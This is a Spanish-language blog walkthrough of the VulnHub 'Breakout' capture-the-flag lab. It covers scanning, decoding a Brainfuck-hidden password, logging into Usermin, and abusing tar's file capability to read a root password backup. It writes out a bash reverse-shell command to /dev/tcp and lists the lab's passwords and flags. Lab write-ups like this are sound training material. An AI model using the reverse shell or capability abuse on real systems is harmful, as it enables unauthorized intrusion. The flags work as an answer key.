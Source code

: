 ```yaml
---
title: "Breakout"
excerpt: "[Easy][Vulnhub] Writeup de Breakout."
header:
  teaser: ""
tags:
  - vulnhub
  - easy
  - writeup
categories:
  - vulnhub
---
```


https://www.vulnhub.com/series/empire,507/

```bash
sudo nmap -vvv -sS -sV -O 192.168.1.0/24
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/1.png){: .align-center}

Saldrá la máquina breakout

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/2.png){: .align-center}

Entrar al servidor web con la dirección `192.168.1.146`, saldrá la web por defecto de Apache

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/3.png){: .align-center}

Dar click derecho e inspeccionar elemento y saldrá un mensaje encriptado

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/4.png){: .align-center}

Usar el identificador de cifrado de la web decode.fr, dirá que es cifrado Brainfuck

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/5.png){: .align-center}

Usar el descifrador Brainfuck

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/6.png){: .align-center}

Tratar de intentar entrar al servidor web con otro de los puertos abiertos, en este caso el 20000

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/7.png){: .align-center}

Dirá que es un servidor bajo SSL por lo que recomienda acceder con https en lugar de http, cambiamos y saldrá la advertencia de sitio inseguro

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/8.png){: .align-center}

Pulsar en avanzado y en aceptar el riesgo y continuar

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/9.png){: .align-center}

Saldrá un login para Usermin

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/10.png){: .align-center}

Usar enum4linux para descubrir el usuario que se encuentra en el equipo

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/11.png){: .align-center}

Saldrá el usuario cyber

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/12.png){: .align-center}

Usar el usuario cyber y la contraseña descifrada anteriormente

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/13.png){: .align-center}

Cargará el siguiente panel

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/14.png){: .align-center}

En la parte inferior se encontrarán unos botones, uno de ellos permitirá abrir una shell

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/15.png){: .align-center}

Entrará al directorio personal de cyber y con dicho usuario

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/16.png){: .align-center}

Listar el contenido, mostrará un archivo llamado `user.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/17.png){: .align-center}

Mostrará el flag del usuario

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/18.png){: .align-center}

Usar el comando `getcap` con el archivo tar

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/19.png){: .align-center}

Ir a `/var/backups` y mostrar el contenido

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/20.png){: .align-center}

Volver al home de cyber y usar el archivo tar para comprimir el archivo `.old_pass.bak`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/21.png){: .align-center}

Descomprimir el archivo creado

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/22.png){: .align-center}

Se creará un directorio llamado var, dentro de él otro llamado backups y dentro de este estará el archivo `.old_pass.bak` que ahora se podrá leer

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/23.png){: .align-center}

Mostrará una contraseña para el usuario root

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/24.png){: .align-center}

Al tratar de usar el comando su no lo permitirá

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/25.png){: .align-center}

Hacer un reverse shell con el comando
```bash
bash –i  >& /dev/tcp/192.168.1.127/4444 0>&1
```

Y poner el puerto de escucha en 4444

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/26.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/27.png){: .align-center}

Se abrirá un shell inverso aunque aún con el usuario cyber

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/28.png){: .align-center}

Hacer de nuevo un cat al archivo para poder copiar la contraseña

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/29.png){: .align-center}

Cambiar de usuario con su, cambiará al usuario root aunque sin mostrar texto, de todos modos se pueden escribir comandos

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/30.png){: .align-center}

Ir al directorio de root y mostrar el contenido

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/31.png){: .align-center}

Mostrará el flag del usuario root

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/32.png){: .align-center}

## Usuarios y contraseñas

Cyber= .2uqPEfj3D<P'a-3
Root= Ts&4&YurgtRX(=~h

## Flags

Usuario:  3mp!r3{You_Manage_To_Break_To_My_Secure_Access}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/33.png){: .align-center}

Root: 3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/34.png){: .align-center}

